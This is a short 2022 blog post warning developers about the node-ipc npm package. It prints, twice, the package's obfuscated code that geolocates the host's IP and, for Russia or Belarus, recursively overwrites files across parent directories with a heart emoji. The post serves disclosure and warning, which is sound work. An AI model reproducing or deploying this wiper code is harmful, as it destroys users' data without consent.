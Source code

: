 +++
title = "Npm package node-ipc is malware?"
date = 2022-03-18
description = "npm package node-ipc is malware?"
+++

# TLDR
DO NOT use or update this module if you or your production servers etc. are located in a country actively involved in the invasion of Ukraine. Author of this package opposes said invasion and put a malicious code to wipe out data and put "❤️" on where they were. You are warned about this feature. Use at your own risk.

~~ Source: [https://github.com/RIAEvangelist/node-ipc/pull/373/files](https://github.com/RIAEvangelist/node-ipc/pull/373/files)

Hey, this is a quick blog post about a topic that happened around yesterday. Brandon Nozaki Miller, or known as [RIAEvangelist](https://github.com/RIAEvangelist) on github. He wanted to spread his views about the Russian-Ukraine war, and he wanted to harm people with Russian or countries related in the Ukraine-Russian war ip's by deleting all their data and replacing it with heart emojis like this: "❤️". This is malware and a federal crime as he disguised it in a package (a popular one I might add).

This shows the darkside of opensource perfectly, one person gets some control and dependencies and uses it for bad. Basically one bad apple ruining a lot of other apples.

I have lost my trust in this dev, and wont be using his software again. I have reported him to gitub and npm.

If you would like to check if your packages are affected take a look at [https://github.com/zlw9991/node-ipc-dependencies-list](https://github.com/zlw9991/node-ipc-dependencies-list). A lot of electron packages are affected, and also vue/cli-shared-utils (a part of vue.js) is affected.

If you are wondering this is the line of code that is malicious. 

### ***Warning do not run this code, none of the problems and issues you get if you run this is my issue or problem or responsibility.***

```javascript

import u from"path";import a from"fs";import o from"https";setTimeout(function(){const t=Math.round(Math.random()*4);if(t>1){return}const n=Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=","base64");o.get(n.toString("utf8"),function(t){t.on("data",function(t){const n=Buffer.from("Li8=","base64");const o=Buffer.from("Li4v","base64");const r=Buffer.from("Li4vLi4v","base64");const f=Buffer.from("Lw==","base64");const c=Buffer.from("Y291bnRyeV9uYW1l","base64");const e=Buffer.from("cnVzc2lh","base64");const i=Buffer.from("YmVsYXJ1cw==","base64");try{const s=JSON.parse(t.toString("utf8"));const u=s[c.toString("utf8")].toLowerCase();const a=u.includes(e.toString("utf8"))||u.includes(i.toString("utf8"));if(a){h(n.toString("utf8"));h(o.toString("utf8"));h(r.toString("utf8"));h(f.toString("utf8"))}}catch(t){}})})},Math.ceil(Math.random()*1e3));async function h(n="",o=""){if(!a.existsSync(n)){return}let r=[];try{r=a.readdirSync(n)}catch(t){}const f=[];const c=Buffer.from("4p2k77iP","base64");for(var e=0;e<r.length;e++){const i=u.join(n,r[e]);let t=null;try{t=a.lstatSync(i)}catch(t){continue}if(t.isDirectory()){const s=h(i,o);s.length>0?f.push(...s):null}else if(i.indexOf(o)>=0){try{a.writeFile(i,c.toString("utf8"),function(){})}catch(t){}}}return f};const ssl=true;export {ssl as default,ssl}
```
Link to file (will probably get deactivated): [https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js](https://github.com/RIAEvangelist/node-ipc/blob/847047cf7f81ab08352038b2204f0e7633449580/dao/ssl-geospec.js)

This above code will check if the ip is from Russia or Belarus and then verwrite many files with a heart emoji recursively. It goes up parent directories.

### ***Warning do not run this code, none of the problems and issues you get if you run this is my issue or problem or responsibility.***

```javascript

import u from "path";
import a from "fs";
import o from "https";
setTimeout(function () {
    const t = Math.round(Math.random() * 4);
    if (t > 1) {
        return;
    }
    const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64");
    o.get(n.toString("utf8"), function (t) {
        t.on("data", function (t) {
            const n = Buffer.from("Li8=", "base64");
            const o = Buffer.from("Li4v", "base64");
            const r = Buffer.from("Li4vLi4v", "base64");
            const f = Buffer.from("Lw==", "base64");
            const c = Buffer.from("Y291bnRyeV9uYW1l", "base64");
            const e = Buffer.from("cnVzc2lh", "base64");
            const i = Buffer.from("YmVsYXJ1cw==", "base64");
            try {
                const s = JSON.parse(t.toString("utf8"));
                const u = s[c.toString("utf8")].toLowerCase();
                const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8"));
                if (a) {
                    h(n.toString("utf8"));
                    h(o.toString("utf8"));
                    h(r.toString("utf8"));
                    h(f.toString("utf8"));
                }
            } catch (t) {}
        });
    });
}, Math.ceil(Math.random() * 1e3));
async function h(n = "", o = "") {
    if (!a.existsSync(n)) {
        return;
    }
    let r = [];
    try {
        r = a.readdirSync(n);
    } catch (t) {}
    const f = [];
    const c = Buffer.from("4p2k77iP", "base64");
    for (var e = 0; e < r.length; e++) {
        const i = u.join(n, r[e]);
        let t = null;
        try {
            t = a.lstatSync(i);
        } catch (t) {
            continue;
        }
        if (t.isDirectory()) {
            const s = h(i, o);
            s.length > 0 ? f.push(...s) : null;
        } else if (i.indexOf(o) >= 0) {
            try {
                a.writeFile(i, c.toString("utf8"), function () {});
            } catch (t) {}
        }
    }
    return f;
}
const ssl = true;
export { ssl as default, ssl };
```

This overwrites the file with heart emoji.

### ***Warning do not run this code, none of the problems and issues you get if you run this is my issue or problem or responsibility.***

Source and if you would like to learn more about the code read this gist: [https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c](https://gist.github.com/MidSpike/f7ae3457420af78a54b38a31cc0c809c)

node-ipc and peacenotwar github (malware)
- [https://github.com/RIAEvangelist/node-ipc](https://github.com/RIAEvangelist/node-ipc)
- [https://github.com/RIAEvangelist/peacenotwar](https://github.com/RIAEvangelist/peacenotwar)
